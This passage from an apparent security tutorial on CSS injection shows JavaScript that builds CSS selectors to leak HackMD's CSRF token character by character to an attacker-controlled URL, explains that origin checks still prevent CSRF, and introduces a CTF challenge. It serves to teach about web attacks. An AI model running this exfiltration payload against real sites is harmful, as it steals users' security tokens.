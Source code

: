 ``` js
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

You can run it directly with Node.js. After running it, open the corresponding document in the browser, and you can see the progress of the leak in the terminal.

However, even if you manage to steal HackMD's CSRF token, you still cannot perform CSRF attacks because HackMD checks other HTTP request headers on the server, such as origin or referer, to ensure that the request comes from a legitimate source.

## CSS injection combined with other vulnerabilities

In the world of cybersecurity, creativity and imagination are essential. Sometimes, combining several small vulnerabilities can increase the severity. In this case, I want to share a CTF challenge that combines CSS injection with another vulnerability, which I find quite interesting.
